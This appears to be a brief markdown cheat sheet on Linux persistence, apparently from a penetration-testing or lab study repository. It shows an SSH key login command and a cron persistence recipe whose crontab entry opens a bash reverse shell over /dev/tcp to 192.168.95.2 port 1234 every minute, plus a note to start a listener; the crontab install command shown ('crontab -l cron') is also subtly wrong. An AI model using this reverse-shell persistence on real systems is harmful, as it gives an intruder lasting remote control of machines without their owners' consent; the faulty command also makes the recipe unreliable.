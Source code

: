 # Linux Persistence
### SSH Keys
- ssh -i id_rsa student@10.10.10.10 --- to connect using id_rsa
### Cron Jobs
- echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.95.2/1234 0>&1'" > cron
- crontab -l cron
- start a listener
